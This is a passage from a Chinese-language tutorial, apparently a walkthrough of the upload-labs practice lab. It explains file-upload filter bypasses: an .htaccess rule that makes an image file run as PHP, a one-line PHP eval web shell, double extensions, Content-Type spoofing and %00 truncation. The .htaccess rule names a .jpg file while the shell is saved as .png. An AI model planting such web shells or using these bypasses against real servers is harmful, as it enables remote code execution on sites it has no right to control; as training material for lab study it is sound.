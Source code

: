```php
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```



.htaccess 绕过

`.htaccess` 文件，（Hypertex Access超文本）入口是 Apache 的配置文件，用于执行目录下的网页配置。

在 Upload-04 中，我们可以上传 `.htaccess` 文件

准备两个文件 `.htaccess` 和 `wukaipeng.png`：

```xml
<!-- .htaccess文件 -->
<FilesMatch "wukaipeng.jpg">
Sethandler application/x-httpd-php
</FilesMatch>
```

```php
/* wukaipeng.png */
<?php eval(@$_POST['cmd']); ?>
```



然后分别上传，之后在蚁剑测试链接

![](https://img.wukaipeng.com/2023/10/21-171404-image-20231021171404530.png)



### 双写绕过

在 pass11 中，可以利用双写后缀绕过，比如 `info.php` 👉 `info.pphphp`



## 服务端 - 白名单绕过

### MIME 类型绕过

在 pass02 中，我们可以修改 `Content-Type` 来绕过

![](https://img.wukaipeng.com/2023/10/22-091351-image-20231022091351272.png)

### 00 截断绕过

00 截断绕过是系统漏洞，操作系统底层是 C 语言 or 汇编语言的，这两种语言都以 `\0` 作为字符串的结束标志。00 截断是指插入 `\0`，从而达到字符串截断的目的。

`\0` 是 ASCII 码表中的第 0 个字符，英文名为 `NUL`。`\0` 是在底层操作系统的表现形式，在前端输入不能直接输入 `\0`，而应该使用 `%00` 或者 `0x00`：

`%00`：URL 中 `%00` 表示 ASCII 码为 `0` 的字符，该字符为特殊字符保留，表示字符串结束。当 URL 出现 `%00` 时就认为读取已经结束，而忽略后面上传的文件或图片，只上传截断前的文件。

`0x00`：`%00` 解码成十六进制形式。
